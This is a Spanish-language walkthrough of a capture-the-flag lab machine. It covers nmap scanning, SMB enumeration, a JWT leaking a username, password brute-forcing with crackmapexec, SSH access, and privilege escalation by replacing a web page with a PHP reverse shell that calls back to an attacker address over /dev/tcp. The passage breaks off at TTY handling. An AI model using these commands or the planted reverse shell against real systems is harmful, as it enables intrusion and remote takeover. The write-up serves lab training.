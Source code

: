 # Maquina

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.1

![alt text](image.png)

### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80,139,445 -vvv -Pn 172.17.0.1

![alt text](image-1.png)

### Listar samba

![alt text](image-2.png)

encontramos un archivo access.txt que contenia un jwt, lo verificamos con jwt.io y nos aparecio un dominio y un usuario:

![alt text](image-3.png)

satriani7 -> eseemeb.dl

![alt text](image-4.png)

### Crackmapexec 

crackmapexec smb 172.17.0.1 -u satriani7 -p /usr/share/wordlists/rockyou.txt --users

![alt text](image-5.png)

![alt text](image-6.png)




nos aseguramos a que tenemos acceso con las credenciales de arriba:



smbmap -H 172.17.0.1 -u satriani7 -p 50cent

![alt text](image-8.png)

smbclient //172.17.0.1/backup24 -U satriani7%50cent

![alt text](image-9.png)

abrimos el archivo credentials.txt y encontramos las credenciales para SSH.

![alt text](image-10.png)

![alt text](image-11.png)

### Escalar privilegios

No encontramos nada, utilizando las diferentes herramientas tales como sudo -l, SUID, crontab, linpeas, pspy64.

Aplicando el artificio:

hice fuzzing web y encontramos un /productos.php entonces con la conexion ssh que tengo entre en /var/www/html y renombre el archivo procutos.php por products.php ya que no podia editarlo y cree un productos.php con una reverse shell.

![alt text](image-12.png)

<?php 
	exec("/bin/bash -c 'bash -i >& /dev/tcp/172.17.0.3/443 0>&1' ");
?>

![alt text](image-13.png)

me puse en escucha por el puerto 443 y luego entre en la web a /productos.php, una vez conectado, hice tratamiento de la TTY:





